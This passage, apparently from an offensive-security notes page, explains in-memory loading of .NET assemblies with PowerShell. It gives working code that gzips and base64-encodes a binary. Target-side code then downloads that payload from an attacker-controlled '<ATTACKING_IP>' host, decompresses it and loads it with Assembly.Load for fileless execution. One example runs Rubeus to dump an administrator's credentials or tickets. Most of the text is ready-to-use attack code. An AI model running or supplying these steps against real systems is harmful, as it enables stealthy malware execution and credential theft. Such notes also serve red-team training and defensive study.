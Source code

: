 {% code title="CompressEncodeAssembly.ps1" %}
```powershell
$bytes = [System.IO.File]::ReadAllBytes("$(pwd)\binary.exe")
[System.IO.MemoryStream] $outStream = New-Object System.IO.MemoryStream
$gzipStream = New-Object System.IO.Compression.GzipStream($outStream, [System.IO.Compression.CompressionMode]::Compress)
$gzipStream.Write($bytes, 0, $bytes.Length)
$gzipStream.Close()
$outStream.Close()
[byte[]] $outBytes = $outStream.ToArray()
$b64Zipped = [System.Convert]::ToBase64String($outBytes)
$b64Zipped | Out-File -NoNewLine -Encoding ASCII .\b64.txt
```
{% endcode %}

```powershell
.\CompressEncodeAssembly.ps1
```

On the target, we can decode, decompress and load the assembly

```powershell
#Download it
$data= New-Object System.IO.MemoryStream(, [System.Convert]::FromBase64String((iwr "http://<ATTACKING_IP>/b64.txt" -UseBasicParsing).Content))
#Or
#Get it from a string
$data = New-Object System.IO.MemoryStream(, [System.Convert]::FromBase64String("<Base64 here>"))

#Decompress
$decompressed = New-Object System.IO.Compression.GZipStream($data, [System.IO.Compression.CompressionMode]::Decompress)
$out= New-Object System.IO.MemoryStream;
$decompressed.CopyTo($out)
[byte[]]$byteOutArray = $out.ToArray()

#Load it
[System.Reflection.Assembly]::Load($byteOutArray)
```

Now, we can call methods from this assembly

```powershell
#Call your function
[Do.The]::thing()

#Call your function with parameters
$parameters=@("arg1", "arg2")
[Do.The]::thing($parameters)

#An other example
[Rubeus.Program]::Main("dump /user:administrator".Split())
```
{% endtab %}
